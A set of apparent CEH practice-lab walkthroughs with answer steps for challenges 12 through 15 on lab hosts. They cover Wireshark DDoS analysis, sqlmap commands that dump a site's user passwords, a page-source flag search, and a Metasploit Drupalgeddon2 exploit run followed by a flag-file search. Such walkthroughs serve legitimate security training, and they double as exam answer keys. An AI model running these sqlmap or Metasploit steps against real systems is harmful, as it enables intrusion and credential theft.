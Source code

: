 ![Untitled](questions4%20453be21150064a2b9e838ac59b0b6c39/Untitled.png)

**Challenge 12**:

You are investigating a massive DDoS attack launched against a target at 172.22.10.10. Your objective is to identify the packets responsible for the attack and determine the least IPv4 packet count sent to the victim machine. The network capture file "Evil-traffic.pcapng" is saved in the Documents folder of the "EH Workstation – 2" (Windows 11) machine.(Format: NNNNN)

```bash
#Open Wireshark and load Evil-traffic.pcapng:
ip.src!=172.22.10.10 && ip.dst == 172.22.10.10
Statistics -> Conversations -> IPv4
#Click on the Packets column headerto sort conversations by packet count
#Look through the sorted list to find the conversation with the least number of packets sent to 172.22.10.10.
```

**Challenge 13**:

Perform an SQL injection attack on your target web application cinema.cehorg.com and extract the password of user Daniel. You have already registered on the website with credentials Karen/computer. (Format: aaaaaaaaaa)

```bash
sqlmap -u "http://cinema.cehorg.com/search.php?q=test" --cookie="PHPSESSID=your_
session_id" --dump
sqlmap -u "http://cinema.cehorg.com/search.php?q=test" --cookie="PHPSESSID=your_
session_id" --dbs
sqlmap -u "http://cinema.cehorg.com/search.php?q=test" --cookie="PHPSESSID=your_
session_id" -D database_name --tables
sqlmap -u "http://cinema.cehorg.com/search.php?q=test" --cookie="PHPSESSID=your_
session_id" -D database_name -T users --columns
sqlmap -u "http://cinema.cehorg.com/search.php?q=test" --cookie="PHPSESSID=your_
session_id" -D database_name -T users -C username,password --dump
```

**Challenge 14**:

Explore the web application at www.cehorg.com and enter the flag's value on the page with page_id=95. (Format: A**NNAA)

```bash
http://www.cehorg.com/index.php?page_id=95
#Right-click on the page and select "View Page Source".
#search for flag value
#As an example, you might find a comment like this in the source code:
<!-- The flag is A**23BC -->
```

**Challenge 15**:

Perform vulnerability research and exploit the web application training.cehorg.com, available at 10.10.55.50. Locate the Flag.txt file and enter its content as the answer. (Format: A*a*aNNN)

```bash
Navigate to http://10.10.55.50 to verify the target is running a Drupal site
msfconsole
search drupal
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOST 10.10.55.50
set RPORT 80
run
find / -name Flag.txt 2>/dev/null
cat /path/to/Flag.txt
```
